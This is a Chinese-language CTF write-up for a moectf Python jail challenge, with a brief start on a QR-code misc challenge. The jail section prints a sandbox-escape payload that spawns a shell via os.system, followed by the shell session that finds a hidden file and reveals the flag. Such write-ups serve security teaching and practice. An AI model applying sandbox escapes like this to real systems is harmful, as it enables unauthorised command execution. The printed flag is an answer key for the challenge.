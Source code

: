 ## moejail_lv1

* 是python jail题，其本质是一个暗箱的主机，需要我们在有限的命令行下，绕过限制，找到flag
* 更多相似可以上NSSCTF寻找[[HNCTF 2022 Week1]calc_jail_beginner(JAIL)](https://zhuanlan.zhihu.com/p/578986988)。附上[大佬的解析](https://zhuanlan.zhihu.com/p/578986988)。

```
Give me your payload:__import__('os').system('sh')  #进入shell

cd /  #进入根目录

ls  #查看目录下文件
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd /tmp

ls  #查看目录下文件，没有

ls -a #查看目录下文件，包括隐藏文件(.example)
.
..
.therealflag_2de0080eb1e85f9f2e7cb81a8475d2ba155dce0cf38a3231b7d0e4039779305ace58ccd8e8539dc7117fe6dc0970e72cda437161adc952ba7b63796199d0a26c  -

cat .thereal* #读取.thereal*文件，*是通配符
moectf{AH_h@_noW_yOu_kn0w_h0W_tO_ESC@Pe-sIMp1E-Str1NG_fIlter0}
```

## ctfer2077①

* 扫描二维码得到[链接](https://www.bilibili.com/video/BV1hThreMEyT)
* 用strings查看，得到提示

![](https://seandictionary.top/wp-content/uploads/2024/09/image-23.png)
